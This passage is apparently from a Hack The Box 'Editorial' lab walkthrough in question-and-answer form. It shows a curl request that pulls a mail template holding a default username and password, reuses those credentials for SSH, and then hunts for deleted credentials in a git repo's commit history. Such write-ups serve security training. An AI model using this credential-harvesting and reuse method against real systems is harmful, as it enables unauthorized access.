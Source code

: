 ###### Which relative API endpoint returns a template that includes a default username and password?


![b](/images/images-editorial/image_06.png)

```bash
┌──(root㉿kali)-[/home/kali/Documents/htb/editorial]
└─# curl http://editorial.htb/static/uploads/abcaf8e8-6a94-4a6f-9504-c12f771f9539 | jq .
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   506  100   506    0     0   4732      0 --:--:-- --:--:-- --:--:--  4773
{
  "template_mail_message": "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."
}
    
```

These credentials will work for SSH. Now we are in!

###### What is the full path to the directory that contains a git repo but all the files have been deleted?

&nbsp;

The directory that we land in will contain a .git directory. (/home/dev/apps) 

###### What is the prod user's password on Editorial?

By looking at the commit changes, we will find some deleted credentials.
